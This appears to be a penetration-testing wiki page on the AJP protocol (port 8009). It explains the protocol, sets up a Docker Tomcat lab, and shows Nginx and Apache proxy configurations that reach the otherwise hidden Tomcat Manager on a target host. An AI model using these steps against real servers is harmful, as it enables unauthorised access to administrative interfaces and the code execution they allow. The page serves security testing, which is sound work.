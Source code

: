 ```yaml
---
Ports:
  - "8009"
Description: According to Apache, AJP (or JK) is a wire protocol. It is an optimized version of the HTTP protocol to allow a standalone web server such as Apache to talk to Tomcat. Historically, Apache has been much faster than Tomcat at serving static content. The idea is to let Apache serve the static content when possible but proxy the request to Tomcat for Tomcat-related content.
---
```


>[!info]
> According to Apache [^connectors], AJP (or JK) is a wire protocol. It is an optimized version of the HTTP protocol to allow a standalone web server such as Apache to talk to Tomcat. Historically, Apache has been much faster than Tomcat at serving static content. The idea is to let Apache serve the static content when possible but proxy the request to Tomcat for Tomcat-related content.

[^connectors]: [Connectors](https://cwiki.apache.org/confluence/display/TOMCAT/Connectors), cwiki.apache.org

AJP can proxy inbound requests from a web server through to an application server that sits behind the web server. AJP is a highly trusted protocol and should never be exposed to untrusted clients, which could use it to gain access to sensitive information or execute code on the application server.

Read how JSP Message Processing works from the Praetorian blogpost about CVE-2023-46747. [^46747]

[^46747]: [Normal AJP Message Processing](https://www.praetorian.com/blog/refresh-compromising-f5-big-ip-with-request-smuggling-cve-2023-46747/#:~:text=Normal%20AJP%20Message%20Processing), praetorian.com

# Set up a test environment

Setup a test environment:

*tomcat-users.xml*
```xml
<tomcat-users>
  <role rolename="manager-gui"/>
  <role rolename="manager-script"/>
  <user username="tomcat" password="s3cret" roles="manager-gui,manager-script"/>
</tomcat-users>
```

Install tomcat using Docker:
```bash
$ sudo apt install docker.io
$ sudo docker run -it --rm -p 8009:8009 -v `pwd`/tomcat-users.xml:/usr/local/tomcat/conf/tomcat-users.xml --name tomcat "tomcat:8.0"
```
# Exploitation

When we come across open AJP proxy ports (`8009 TCP`) during penetration tests, we may be able to use them to access the "hidden" Apache Tomcat Manager behind it. We can configure our own Nginx or Apache webserver with AJP modules to interact with it and access the underlying application.

## Nginx & AJP

We can use Nginx with the `ajp_module` to access the "hidden" Tomcat Manager. This can be done by compiling the Nginx source code and adding the required module:

```bash
$ wget https://nginx.org/download/nginx-1.21.3.tar.gz
$ tar -xzvf nginx-1.21.3.tar.gz
$ git clone https://github.com/dvershinin/nginx_ajp_module.git
$ cd nginx-1.21.3
$ sudo apt install libpcre3-dev
$ ./configure --add-module=`pwd`/../nginx_ajp_module --prefix=/etc/nginx --sbin-path=/usr/sbin/nginx --modules-path=/usr/lib/nginx/modules
$ make
$ sudo make install
$ nginx -V
```

Edit the `/etc/nginx/conf/nginx.conf`:
```nginx
# Comment out the entire "server" block and append inside http
	http {
	# server {
	# ...
	# }
	upstream tomcats {
		server <TARGET_SERVER>:8009; # AJP port
		keepalive 10;
	}
	server {
		listen 80;
		location / {
			ajp_keep_conn on;
			ajp_pass tomcats;
		}
	}
}
```

## Apache & AJP

Apache has the AJP module precompiled for us. We will need to install it, though, as it doesn't come in default installations.

```bash
sudo apt install libapache2-mod-jk
sudo a2enmod proxy_ajp
export TARGET="<TARGET_IP>"
echo -n """<Proxy *>
Order allow,deny
Allow from all
</Proxy>
ProxyPass / ajp://$TARGET:8009/
ProxyPassReverse / ajp://$TARGET:8009/""" | sudo tee /etc/apache2/sites-available/ajp-proxy.conf
sudo ln -s /etc/apache2/sites-available/ajp-proxy.conf /etc/apache2/sites-enabled/ajp-proxy.conf
sudo systemctl start apache2
```
